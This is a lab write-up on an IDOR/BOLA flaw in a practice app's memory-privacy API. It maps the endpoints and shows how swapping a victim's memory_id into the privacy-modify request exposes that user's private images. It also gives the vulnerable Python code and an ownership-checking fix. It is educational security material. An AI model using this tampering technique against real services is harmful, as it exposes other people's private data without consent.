





# Broken Object Level Authorization (IDOR) - Modify Another User's Memory Privacy

## Here is it the steps i exactly followed in this lab

## Step 1 - Mapping the features

    Features

    1.Login
        endpoint - api/login
        parameter - username,password
        res param - message,username

        actions
            verifying the user identiy(authentication jwt)



    2.Profile
        endpoint - api/profile/attacker_user
        res param - message_id,content_url,privacy,username

        actions
            identiy of the users



    3.Memory upload
        endpoint - api/memories/upload
        param - content_url
        res param - message_id, message

        actions
            uploading images as memory(private by default)



    4.Privacy change
        enpoint - api/privacy/modify
        param - message_id,type

        actions
            changing the status of the memory to private to public

    5.Global feed
        endpoint - api feed
        res param - author,message_id,content_url

        actions
            the public memory are visible in a global feed



---

## Step 2 - Build Thread models

    1.Can we login without credentials
    2.can we access another user profile
    3.can we change the privacy of another user memory

### test every thread models

    1.no
    2.no
    3.yes
---

## Step 3 - Testing - Upload a Memory

Navigate to **My Profile**.

Upload any image (or URL depending on implementation).

Request

POST

```
POST /api/memories/upload
```

Body

```json
{
    "content_url":"com.com"
}
```

Response

```json
{
    "memory_id":"ffc95c29-5480-4f85-9033-9779f9aec701",
    "message":"Memory uploaded successfully (Private by default)"
}
```

Notice that the server returns a **memory_id**.


---

## Step 4 - Inspect Your Profile

Refresh your profile.

```
GET /api/profile/attacker_user
```

The response contains

```json
{
    "memory_id":"ffc95c29-5480-4f85-9033-9779f9aec701",
    "privacy":0
}
```

At this point we learn two important things.

- Every memory has a unique identifier.
- The API exposes the privacy state.

This suggests there may be another endpoint responsible for changing privacy.


---

## Step 5 - Locate Privacy Modification Endpoint

Capture the request while changing your own memory from Private → Public.

```
POST /api/privacy/modify
```

Request

```json
{
    "memory_id":"ffc95c29-5480-4f85-9033-9779f9aec701",
    "type":1
}
```

The server updates the privacy successfully.



---

## Step 6 - Obtain Victim Memory ID

Login as the victim.

Navigate to the victim profile.

Locate the victim's private memory and copy its **memory_id**.

Logout.

---

## Step 7 - Exploit

Login back as the attacker.

Intercept the privacy modification request.

Replace

```json
{
    "memory_id":"YOUR_MEMORY_ID"
}
```

with

```json
{
    "memory_id":"VICTIM_MEMORY_ID"
}
```

Forward the request.

The server responds

```json
{
    "message":"Privacy updated successfully"
}
```

The request succeeds even though the attacker does not own the memory.

---

## Step 8 - Verify

Visit the Global Feed.

The victim's private memory is now publicly visible.

This confirms the vulnerability.


---

# Root Cause

The server trusts the client-supplied **memory_id** without verifying ownership.

A simplified vulnerable implementation looks like:

```python
memory = Memory.query.get(memory_id)

memory.privacy = request.json["type"]

db.session.commit()
```

The server updates any memory matching the supplied ID.

---

# Secure Implementation

The server must verify ownership before modifying the object.

```python
memory = Memory.query.filter_by(
    id=memory_id,
    owner=current_user.id
).first()

if not memory:
    abort(403)

memory.privacy = request.json["type"]

db.session.commit()
```

---

# Impact

An attacker can

- Modify another user's privacy settings
- Expose private memories
- Leak confidential images
- Break authorization boundaries

---

# Vulnerability

**Broken Object Level Authorization (BOLA)**

Also known as

**Insecure Direct Object Reference (IDOR)**

---
